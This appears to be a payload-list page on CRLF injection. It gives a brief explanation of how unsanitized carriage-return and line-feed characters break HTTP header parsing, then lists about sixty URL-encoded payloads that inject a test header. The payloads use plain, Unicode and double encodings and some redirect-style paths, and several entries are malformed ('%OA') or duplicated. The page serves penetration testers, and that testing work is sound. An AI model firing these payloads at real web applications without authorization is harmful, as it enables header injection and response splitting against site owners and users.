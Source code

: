 # CRLF

A Carriage Return Line Feed (CRLF) Injection vulnerability occurs when an application does not sanitize user input correctly and allows for the insertion of carriage returns and line feeds, input which for many internet protocols, including HTML, denote line breaks and have special significance.  
For example, Parsing of HTTP message relies on CRLF characters (%0D%0A which decoded represent \r\n) to identify sections of HTTP messages, including headers.

Payloads for  **CRLF** 

%0AHeader-Test:TESTING
%0A%20Header-Test:TESTING
%20%0AHeader-Test:TESTING
%23%OAHeader-Test:TESTING
%E5%98%8A%E5%98%8DHeader-Test:TESTING
%E5%98%8A%E5%98%8D%0AHeader-Test:TESTING
%3F%0AHeader-Test:TESTING
crlf%0AHeader-Test:TESTING
crlf%0A%20Header-Test:TESTING
crlf%20%0AHeader-Test:TESTING
crlf%23%OAHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8DHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8D%0AHeader-Test:TESTING
crlf%3F%0AHeader-Test:TESTING
%0DHeader-Test:TESTING
%0D%20Header-Test:TESTING
%20%0DHeader-Test:TESTING
%23%0DHeader-Test:TESTING
%23%0AHeader-Test:TESTING
%E5%98%8A%E5%98%8DHeader-Test:TESTING
%E5%98%8A%E5%98%8D%0DHeader-Test:TESTING
%3F%0DHeader-Test:TESTING
crlf%0DHeader-Test:TESTING
crlf%0D%20Header-Test:TESTING
crlf%20%0DHeader-Test:TESTING
crlf%23%0DHeader-Test:TESTING
crlf%23%0AHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8DHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8D%0DHeader-Test:TESTING
crlf%3F%0DHeader-Test:TESTING
%0D%0AHeader-Test:TESTING
%0D%0A%20Header-Test:TESTING
%20%0D%0AHeader-Test:TESTING
%23%0D%0AHeader-Test:TESTING
\r\nHeader-Test:TESTING
 \r\n Header-Test:TESTING
\r\n Header-Test:TESTING
%5cr%5cnHeader-Test:TESTING
%E5%98%8A%E5%98%8DHeader-Test:TESTING
%E5%98%8A%E5%98%8D%0D%0AHeader-Test:TESTING
%3F%0D%0AHeader-Test:TESTING
crlf%0D%0AHeader-Test:TESTING
crlf%0D%0A%20Header-Test:TESTING
crlf%20%0D%0AHeader-Test:TESTING
crlf%23%0D%0AHeader-Test:TESTING
crlf\r\nHeader-Test:TESTING
crlf%5cr%5cnHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8DHeader-Test:TESTING
crlf%E5%98%8A%E5%98%8D%0D%0AHeader-Test:TESTING
crlf%3F%0D%0AHeader-Test:TESTING
%0D%0A%09Header-Test:TESTING
crlf%0D%0A%09Header-Test:TESTING
%250AHeader-Test:TESTING
%25250AHeader-Test:TESTING
%%0A0AHeader-Test:TESTING
%25%30AHeader-Test:TESTING
%25%30%61Header-Test:TESTING
%u000AHeader-Test:TESTING
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:TESTING
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:TESTING
/google.com/%2F..%0D%0AHeader-Test:TESTING

